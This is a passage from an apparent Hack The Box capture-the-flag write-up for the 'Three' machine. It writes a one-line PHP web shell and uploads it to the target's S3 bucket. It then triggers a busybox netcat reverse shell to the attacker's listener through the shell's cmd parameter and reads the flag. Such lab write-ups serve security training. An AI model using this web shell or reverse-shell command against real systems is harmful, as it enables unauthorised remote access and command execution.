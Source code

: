 ### Scripting (PHP)

Let’s write a simple php shell command. Here, we will be able to obtain the command line using the “**system()**” function by using the operating system function :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Three]
└─$ nano script.php           

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Three]
└─$ cat script.php 
<?php system($_GET["cmd"]); ?>
```

Now we copy that on the target machine with the following command :

```bash                               
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Three]
└─$ aws --endpoint=http://s3.thetoppers.htb s3 cp script.php s3://thetoppers.htb 
upload: ./script.php to s3://thetoppers.htb/script.php            
```
### Foothold

Now going on the URL we have command injection :

![Pasted image 20250731212905.png](../../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250731212905.png)

We can copy a [Reverse Shell](../../../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) from https://www.revshells.com/ :

```
 busybox nc 10.10.14.231 1337 -e sh
```

We open the listener on the same port with [Netcat](../../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Three]
└─$ nc -lvnp 1337  
listening on [any] 1337 ...
```

And we paste the shell in the cmd parameter :

```nash
 http://thetoppers.htb/script.php?cmd=busybox%20nc%2010.10.14.231%201337%20-e%20sh
```

We check the listener and retrieve the flag :

```
listening on [any] 1337 ...
connect to [10.10.14.231] from (UNKNOWN) [10.129.227.248] 39036
whoami
www-data

cd ..

cat flag.txt
 {{REDACTED_FLAG}}
```

Pwned !!
